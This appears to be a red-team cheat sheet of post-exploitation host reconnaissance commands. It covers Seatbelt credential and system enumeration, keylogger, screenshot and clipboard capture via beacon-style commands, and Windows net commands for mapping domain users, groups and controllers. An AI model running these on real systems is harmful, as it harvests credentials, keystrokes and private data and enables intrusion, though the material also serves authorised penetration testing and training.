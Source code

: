 ### **Host Reconnaissance**

### Processes enum

The ps command lists running processes, displaying PID, name, user, and PPID, useful for identifying targets

```bash
ps
```

### Seatbelt

https://github.com/GhostPack/Seatbelt

**collect system-related information**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system
```

**Logged-On Users Information**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=loggedon
```

**Stored Credentials Search**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=credentials
```

**Local Group Policy Review**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=policy
```

**Available Networks Enumeration**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=network
```

**Installed Software Detection**

```bash
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=software
```

### **Screenshots**

Takes a single screenshot using the PrintScr method.

```bash
printscreen
```

Takes a single screenshot.

```bash
screenshot
```

Captures periodic screenshots of the desktop.

```bash
screenwatch
```

### **Keylogger**

A keylogger can capture the keystrokes of a user.

```bash
 keylogger
```

The keylogger runs as a job that can be stopped.

kill jobs

```bash
jobs
```

```bash
jobkill <JID>
```

### **Clipboard**

The clipboard command will capture any text from the user's clipboard (it does not capture images or any other types of data).

```bash
clipboard
```

### **User Sessions**

List the logon sessions.

```bash
net logons
```

List all users in the domain.

```bash
net user /domain
```

View groups in the domain.

```bash
net group /domain
```

List groups a specific user belongs to.

```bash
net user <username> /domain
```

View all permissions and settings for a user.

```bash
net user <username> /all
```

View members of a specific group.

```bash
net group "GroupName" /domain
```

List active sessions on the system.

```bash
net session
```

View shared resources on a machine.

```bash
net share
```

Show computers in the domain.

```bash
net view /domain
```

Identify domain controllers.

```bash
net group "Domain Controllers" /domain
```

View the network configuration of the machine.

```bash
net config workstation
```
